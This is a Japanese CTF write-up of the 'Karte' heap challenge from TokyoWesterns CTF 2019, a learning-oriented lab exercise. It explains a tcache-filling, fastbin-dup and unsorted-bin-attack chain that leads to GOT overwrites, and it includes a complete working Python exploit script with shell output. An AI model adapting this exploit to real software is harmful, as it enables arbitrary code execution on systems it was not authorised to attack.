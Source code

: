 # [pwn 279pts] Karte - TokyoWesterns CTF 5th 2019
64ビットバイナリで、PIEやRELROは無効です。やったー。
```
$ checksec -f ./karte
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   91 Symbols     Yes      0               4       ./karte
```
またShow系の無いヒープ問題です。が、今回はPIEやRELROが無効なのでShowが無いことはそんなに気にしなくて大丈夫ですね。

さて、IDAで読むといろいろ奇妙な処理をしています。
最初にbssにあるnameに0x3fバイトまで文字を格納できます。
最大3つまで格納できるlistがあり、addするとサイズが0x800バイト以下ならcalloc、0x800バイトより大きければmallocされます。mallocされた場合、後で`/dev/zero`のfdが入ったzfdからサイズ分readされます。
deleteすると、list[i]->idとlist[i]->is_usedが0でなければfreeしてlist[i]->is_usedに0を入れます。
modifyすると、list[i]->idが0でなければstrlen(list[i]->buf)だけ書き換えられます。ここにUAFがありますが、modifyは`key == lock`でなければ呼び出せません。一度modifyすると`key = 0xdeadc0bebeef`されるのでもう呼び出せなくなります。

libc-2.27なのでtcacheが有効です。これは厄介で、callocでは`_int_malloc`を呼び出しておりtcacheが使われないのでmodifyでfdを書き換えてもダメです。とりあえずfastbinを使うために、deleteしまくってtcacheを埋めます。fastbinが使えるようになると、nameに用意した偽のチャンクに向けることができます。
nameに向けると何が嬉しいかというと、rename機能があるので実質modifyと同じことを何回もできます。

目標としてはatoiのgotをprintfのpltに書き換えることです。そこまでできればFSBに持ち込んでAAR/AAWができます。

さて、listのちょっと前を見てみると下のようになっています。
```
pwndbg> x/16xg 0x602100
0x602100 <reserved+96>: 0x0000000000000000      0x0000000000000000
0x602110 <reserved+112>:        0x0000000000000000      0x0000000000000000
0x602120 <zfd>: 0x0000000400000003      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000000
0x602140 <list>:        0x0000451500000001      0x00000000020f6360
0x602150 <list+16>:     0x0000227900000000      0x00000000006021b0
0x602160 <list+32>:     0x0000000000000000      0x0000000000000000
0x602170 <lock>:        0x963d166c9f91dc5f      0x0000000000000000
```
fastbin dupでこの辺りにポインタを向けられたら、listも好きなように変更できる上lockも変えられて万々歳です。しかし、この辺りにはサイズとして使える値が存在しません。そこで、今回はunsorted bin attackを使って0x7f...をreservedのあたりに設置するこにしました。あとはfastbin dupでいい感じにreservedにポインタを向ければ、そこから0x68バイトくらいは書き換えられるのでlockを0xdeadc0bebeefに書き換え、listにatoiのgotとかを入れておけばmodifyでGOT overwriteできます。

こんな感じになればOKです。
```
pwndbg> x/16xg 0x602110
0x602110 <reserved+112>:        0x1b39dcfca0000000      0x000000000000007f
0x602120 <zfd>: 0x0000000400000003      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000000
0x602140 <list>:        0x0000548200000001      0x00000000006021b0
0x602150 <list+16>:     0x000066eb00000000      0x00000000006021b0
0x602160 <list+32>:     0x0000c7b700000001      0x0000000000602200
0x602170 <lock>:        0xe8408093440f5004      0x0000000000000000
0x602180 <stdout@@GLIBC_2.2.5>: 0x00007f1b39dd0760      0x0000000000000000
```

あとはやりたい放題。
最後にFSBでGOT overwriteしても良いのですが、printfが出力した文字数を返すという性質を使えば実質atoiと同様に使えます。modifyが使えるので、freeをsystemに変えましょう。

```python
from ptrlib import *

def add(size, desc):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("> ", str(size))
    sock.sendafter("> ", desc)
    sock.recvuntil("id ")
    return int(sock.recvline())

def delete(id):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter("> ", str(id))
    return

def modify(id, desc):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter("id > ", str(id))
    sock.sendafter("description > ", desc)
    return

def rename(name):
    sock.sendlineafter("> ", "99")
    sock.sendafter("... ", name)
    return

elf = ELF("./karte")
libc = ELF("./libc-2.27.so")
sock = Process("./karte")
addr_name = elf.symbol("name")
addr_target = 0x602110
delta = 0xe7

# make name be a chunk
name  = p64(0) + p64(0x71)
name += p64(addr_name + 0x50) + p64(0)
sock.sendafter("... ", name[:0x3f])

for i in range(7):
    z = add(0x68, "Z" )
    delete(z)
for i in range(7):
    z = add(0x88, "Z" )
    delete(z)
y = add(0x68, "A")
x = add(0x68, "A")
delete(y)
delete(x)
modify(x, p64(addr_name)[:4])
y = add(0x68, "A")
fake_chunk = b"A" * 0x40
fake_chunk += p64(0) + p64(0x71)
fake_chunk += p64(addr_name)
x = add(0x68, fake_chunk) # name
fake_chunk = b"A" * 0x30
fake_chunk += p64(0) + p64(0x21) # @fakeA
fake_chunk += p64(0) * 2
fake_chunk += p64(0) + p64(0x21)
z = add(0x68, fake_chunk) # name + 0x50

rename(p64(0) + p64(0x91))
delete(x)
rename(p64(0) + p64(0x91) + p64(0) + p64(addr_target - 0x15 + 8))
delete(y)
fake_chunk = b'A' * 0x60
fake_chunk += p64(0) + p64(0x21) # don't worry we have @fakeA next
x = add(0x88, fake_chunk) # unsorted bin attack

# overwrite list and lock
rename(p64(0) + p64(0x71))
delete(x)
rename(p64(0) + p64(0x71) + p64(addr_target))
x = add(0x68, "A")
new_id1, new_id3 = 0x1, 0x3
fake_data  = b'/bin/sh\x00' + p64(0) # zfd, rfd
fake_data += p64(0) * 2
fake_data += p32(1) + p32(new_id1) + p64(elf.got("atoi"))   # list[0]
fake_data += p32(0) + p32(0) + p64(0)                       # list[1] == y
fake_data += p32(1) + p32(new_id3) + p64(elf.got("strlen")) # list[2]
fake_data += p64(0xdeadc0bebeef) # lock
y = add(0x68, fake_data)

# GOT overwrite (atoi)
modify(new_id1, p64(elf.plt("printf"))[:6])

# leak libc
sock.sendlineafter("> ", "%19$p.")
libc_base = int(sock.recvuntil(".").rstrip(b"."), 16) - libc.symbol("__libc_start_main") - delta
logger.info("libc base = " + hex(libc_base))

# GOT overwrite (system)
sock.sendlineafter("> ", "%4c") # modify
sock.sendlineafter("id > ", "%{}c".format(new_id3))
sock.sendafter("> ", p64(libc_base + libc.symbol("system"))[:6])

# get the shell!
sock.sendlineafter("> ", "%4c") # modify
sock.sendlineafter("id > ", "%{}c".format(0x58))

sock.interactive()
```

やったー
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=5928)
[+] <module>: libc base = 0x7f73cbb98000
[ptrlib]$                                                                                        
Input new description > id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
想定解かは分からないですが、unsorted binでchunk sizeを作るアイデアがすごい面白かったです。

